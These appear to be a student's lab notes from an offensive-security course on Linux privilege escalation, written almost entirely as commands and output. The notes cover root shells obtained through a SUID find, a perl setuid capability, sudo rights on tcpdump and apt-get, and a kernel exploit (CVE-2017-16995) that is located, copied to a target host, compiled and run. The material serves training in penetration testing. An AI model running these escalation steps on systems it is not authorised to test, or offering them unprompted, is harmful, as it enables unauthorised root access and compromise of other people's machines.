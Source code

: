 ### Abusing Setuid Binaries and Capabilities

#### Setuid Binaries
Revealing the SUID flag in the passwd binary application

`ls -asl /usr/bin/passwd`

```
64 -rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
```

Getting a root shell by abusing SUID for "find" program

`find /home/joe/Desktop -exec "/usr/bin/bash" -p \;`

```hlt:4
bash-5.0# id
uid=1000(joe) gid=1000(joe) euid=0(root) groups=1000(joe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
bash-5.0# whoami
root
```

#### Linux Capabilities 
Extra privileges applied to processes, binaries, or services 

Manually Enumerating Capabilities

`/usr/sbin/getcap -r / 2>/dev/null`

Result: perl binaries have setuid capabilities with +ep (effective and permitted)
```hlt:2,3
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Search "Perl" on [GTFOBins](https://gtfobins.github.io/) to find capabilities exploit commands

Getting a root shell through capabilities exploitation

`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

Result:
```
# id
uid=0(root) gid=1000(joe) 
```

### Abusing Sudo

Sudo-related permissions can be applied in  **/etc/sudoers**

Inspecting current user's sudo permissions

`sudo -l`

Result:
```
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

Search "tcpdump" on  [GTFOBins](https://gtfobins.github.io/)

Attempting to abuse tcpdump sudo permissions

```hlt:"Permission denied"
joe@debian-privesc:~$ COMMAND='id'
joe@debian-privesc:~$ TF=$(mktemp)
joe@debian-privesc:~$ echo "$COMMAND" > $TF
joe@debian-privesc:~$ chmod +x $TF
joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe:
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...
compress_savefile: execlp(/tmp/tmp.c5hrJ5UrsF, /dev/null) failed: Permission denied
```

Checking syslog for tcpdump logs

`cat /var/log/syslog | grep tcpdump`

```
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```

_audit_[4](https://portal.offsec.com/courses/pen-200-44065/learning/linux-privilege-escalation-45403/insecure-system-components-45457/abusing-sudo-45412#fn-local_id_1407-4) daemon has logged our privilege escalation attempt
_AppArmor_[5](https://portal.offsec.com/courses/pen-200-44065/learning/linux-privilege-escalation-45403/insecure-system-components-45457/abusing-sudo-45412#fn-local_id_1407-5) blocked the attempt 

AppArmor provides Mandatory Access Control (MAC)

Check AppArmor's status as root user 

`su - root`

`aa-status`

```hlt:14
apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
...
```

Plan C. 

Search "apt-get" on  [GTFOBins](https://gtfobins.github.io/)

Choosing option a.

`sudo apt-get changelog apt`

Success:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Exploiting Kernel Vulnerabilities

Gathering general information on the target system

```
joe@ubuntu-privesc:~$ cat /etc/issue
Ubuntu 16.04.4 LTS \n \l
```

Gathering kernel and architecture information from our Linux target

```
joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic

joe@ubuntu-privesc:~$ arch 
x86_64
```

 Target system appears to be running Ubuntu 16.04.3 LTS (kernel 4.4.0-116-generic) on the x86_64 architecture

Using #searchsploit to find kernel exploits 

`searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`

Possible exploit:

```
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                             | linux/local/45010.c
```

Copy this exploit to our working directory and view first 10 lines for any compilation instructions

`cp /usr/share/exploitdb/exploits/linux/local/45010.c .`

`head 45010.c -n 20`

Exploit source code instructions

````
  gcc cve-2017-16995.c -o cve-2017-16995

 internet@client:~/cve-2017-16995$ ./cve-2017-16995

````

Renaming the Exploit

`mv 45010.c cve-2017-16995.c`

We can compile and run the exploit on the target. 

Transfer source code using scp

`scp cve-2017-16995.c joe@192.168.123.216:`

Compiling the Exploit on the target machine

`gcc cve-2017-16995.c -o cve-2017-16995`

Examining the exploit binary file's architecture

`file cve-2017-16995`

Run it and get root shell

`./cve-2017-16995`


